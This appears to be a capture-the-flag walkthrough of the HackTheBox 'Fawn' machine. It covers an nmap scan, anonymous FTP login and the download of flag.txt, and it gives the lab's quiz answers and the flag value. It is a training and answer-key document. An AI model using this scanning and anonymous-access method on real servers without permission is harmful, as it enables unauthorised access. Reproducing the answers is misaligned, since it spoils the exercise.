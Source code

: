 ```yaml
---
layout: post
title: "Fawn Walkthrough HTB"
---
```


The File Transfer Protocol (FTP) is a standard communication protocol used for the transfer of computer files from a server to a client on a computer network.FTP users may authenticate themselves with a clear-text sign-in protocol, normally in the form of a username and password, but can connect anonymously if the server is configured to allow it. For secure transmission that protects the username and password, and encrypts the content, FTP is often secured with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).


The original specification for the File Transfer Protocol was written by Abhay Bhushan and published as RFC 114 on 16 April 1971.

---

💻️ The Target Machine is : 10.129.181.55

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.181.55 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.181.55
```
### Answering HTB Questions 

> What does the 3-letter acronym FTP stand for? 
>> file transfer protocol  

> Which port does the FTP service listen on usually?   
>> 21

> What acronym is used for the secure version of FTP? 
>> SFTP

> What is the command we can use to send an ICMP echo request to test our connection to the target? 
>> ping

> From your scans, what version is FTP running on the target?
>> vsftpd 3.0.3

> From your scans, what OS type is running on the target?  
>> Unix

> What is the command we need to run in order to display the 'ftp' client help menu?
>> ftp -h

> What is username that is used over FTP when you want to log in without having an account?
>> anonymous

Anonymous and ftp can either be used in the case above

> What is the response code we get for the FTP message 'Login successful'?
>> 230

This can be viewed when connecting to FTP. This also comes into play when analysing packets of data when using wireshark. In addition such response codes are also common in http/https services.

> There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.
>> ls

> What is the command used to download the file we found on the FTP server?  
>> get

To download files in bulk you can use mget instead.

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.232
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix


---snip---

```

**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

From the enumaration we learn so many things like the OS type, and the file stored.
Furthermore, anonymous login is allowed.
We get to see the version of the service that is running, which is useful if that particular version has vulnerabilities that have been exploited and documented in databases (DB) like [exploitDB](https://www.exploit-db.com/).

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine 🤔️.

```
─$ ftp $IP             

Connected to 10.129.181.55.
220 (vsFTPd 3.0.3)
Name (10.129.181.55:olapapi): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||31975|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt 
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||39738|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************|    32        2.54 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.16 KiB/s)
ftp> exit
221 Goodbye.

```

From the above you can see the response codes and their meaning which is quite helpful.
Since the flag is downloaded on our end we can easily view the contents.

> Submit root flag
>> 035db21c881520061c53e0536e44f815
